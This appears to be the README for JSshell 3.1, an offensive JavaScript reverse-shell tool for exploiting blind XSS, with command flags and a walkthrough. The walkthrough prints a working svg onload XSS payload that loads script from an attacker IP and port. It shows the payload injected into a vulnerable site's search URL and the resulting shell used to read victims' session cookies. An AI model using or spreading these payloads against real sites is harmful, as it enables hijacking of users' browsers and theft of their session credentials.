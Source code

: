 # JSshell - version 3.1

![JSshell](https://user-images.githubusercontent.com/43073671/101387832-ec9f5380-38b6-11eb-9933-db5399cf0319.png)

**JSshell** - a JavaScript reverse shell. This is used for executing JS code remotely, exploiting blind XSS, ...

Requirements: Any OS + Python 2 or Python 3

### New in JSshell version 3.1
Updated in the new version of JShell 3.1:

- New JSshell command: `snippet` -> allows to write a snippet of javascript code

```sh
>>> snippet
Use CTRL+D to finish the snippet

function new() {
    new = 'New update: Support javascript snippet =)';
    confirm(new)
}

new()
>>> 
```
- Quiet mode (for professionals)
- Added `<body>` reverse shell payload
- Fixed some bugs

# Usage
#### Generate JS reverse shell payloads:  `-g`
#### Set the local port number for listening and generating payloads (Default: 4848):  `-p`
#### Set the local source address for generating payloads (Default: auto-detect your IP address):  `-s`
#### Set timeout for shell connection (if the user exits the session, the shell will be paused forever, so if your set the timeout, the shell will be closed after exceeds the timeout):  `-w`
#### Execute a command after getting the shell:  `-c`

#### Example usages:
- `jsh.py`
- `jsh.py -g`
- `jsh.py -p 1234`
- `jsh.py -s 48.586.1.23 -g`
- `jsh.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is a step-by-step example of how to use JSshell.

First, we need to generate a reverse JS shell payload and set the shell timeout (e.g. 20 seconds):

```
~# whoami
root
~# ls
README.md   jsh.py
~# python3 jsh.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website:

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and we will have the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Let execute some commands:

```
$ var test = 'controlled'
$ confirm(test)
$
```
And an alert will be popped up:  `controlled`

```
$ prompt(document.cookie)
$
```
And the browser will print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

Now quited!


# Author
This is created by [shelld3v](https://twitter.com/shells3c_)!

